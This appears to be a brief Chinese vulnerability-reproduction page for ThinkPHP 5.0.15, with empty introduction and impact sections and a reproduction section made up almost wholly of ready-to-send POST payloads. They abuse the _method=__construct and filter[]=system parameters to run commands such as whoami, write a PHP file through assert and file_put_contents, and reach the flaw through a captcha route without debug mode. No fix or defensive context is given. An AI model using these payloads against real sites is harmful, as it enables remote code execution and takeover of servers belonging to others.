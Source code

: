 Thinkphp 5.0.15
===============

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

> https://www.0-sec.org/?s=index/index

    post

    s=whoami&_method=__construct&method=POST&filter[]=system
    aaaa=whoami&_method=__construct&method=GET&filter[]=system
    _method=__construct&method=GET&filter[]=system&get[]=whoami
    c=system&f=calc&_method=filter

> 写shell

    POST

    s=file_put_contents('zerosec.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert

> 有captcha路由时无需debug=true
>
> https://www.0-sec.org/?s=captcha/calc

    POST 

    _method=__construct&filter[]=system&method=GET
